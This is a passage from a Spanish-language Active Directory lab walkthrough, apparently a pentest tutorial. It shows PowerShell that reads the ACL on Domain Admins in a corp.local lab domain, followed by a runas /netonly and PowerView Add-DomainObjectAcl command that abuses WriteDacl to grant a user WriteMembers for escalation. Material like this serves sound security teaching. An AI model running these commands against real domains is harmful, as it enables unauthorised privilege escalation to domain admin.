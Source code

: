 ```powershell
(Get-Acl -Path "AD:CN=Domain Admins,CN=Users,DC=corp,DC=local").Access | Where-Object { $_.IdentityReference -like "*Enterprise Admins*" }
```

Info:

```
ActiveDirectoryRights : CreateChild, DeleteChild, Self, WriteProperty, ExtendedRight, GenericRead, WriteDacl,
                        WriteOwner
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : CORP\Enterprise Admins
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```

Y en el `BloodHound` se tendra que ver algo asi:

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

Lo que nos permite hacer este `WriteDacl` es añadir una `DACL` directamente al grupo `DOMAIN ADMINS` por lo que haremos lo siguiente.

### Elevacion a grupo Domain Admins mediante el permiso WriteDacl

Tendremos que reiniciar la consola como hicimos antes...

```powershell
runas /user:corp\annice.mable /netonly powershell
```

```powershell
cd C:\Users\empleado1\Desktop\
. .\new_powerview.ps1
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers -PrincipalIdentity annice.mable
```

Y si no nos salio ningun error y ningun resultado significa que fue todo bien, ahora si lo comprobamos en nuestro `DC` tendremos que ver lo siguiente:
